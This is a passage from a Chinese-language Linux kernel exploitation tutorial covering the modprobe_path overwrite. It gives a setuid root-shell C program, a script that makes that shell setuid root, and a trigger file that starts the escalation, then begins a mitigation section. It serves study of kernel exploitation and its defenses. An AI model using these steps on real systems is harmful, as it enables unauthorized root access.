 把 `modprobe_path` 中的字串改成 `/tmp/pwn`，把 `/tmp/pwn` 寫成

```shell
#!/bin/sh

chown 0:0 /tmp/shell
chmod 4755 /tmp/shell
```

其中 `/tmp/shell` 是由

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void main() {
    setuid(0);
    setgid(0);
    execl("/bin/sh", "sh", NULL);
}
```

```shell
musl-gcc -static shell.c -o shell
```

編譯的

然後寫一個 `/tmp/trigger` 前四個 bytes 是 `\xff\xff\xff\xff`，接著執行 `/tmp/trigger`，因為沒有 handler 可以識別這個檔案，所以就會去執行

```shell
/tmp/pwn -q -- binfmt-ffff
```

執行後因為沒有去新增 handler，所以 `/tmp/trigger` 就會直接因為沒有 handler 而正常退出（這邊的正常是指 kernel 不會壞掉）。而 `/tmp/pwn` 會去新增一個 `/tmp/shell`，並且執行他就會有 root 的 shell。


### Mitigation

如果 kernel 在編譯的時候有設定 `CONFIG_STATIC_USERMODEHELPER` 的話

```c
struct subprocess_info *call_usermodehelper_setup(
    const char *path, char **argv, 
    char **envp, gfp_t gfp_mask,
    int (*init)(struct subprocess_info *info, struct cred *new),
    void (*cleanup)(struct subprocess_info *info),
    void *data
) {
    // ..

#ifdef CONFIG_STATIC_USERMODEHELPER
    sub_info->path = CONFIG_STATIC_USERMODEHELPER_PATH;
#else
    sub_info->path = path;
#endif

    // ...
}
```
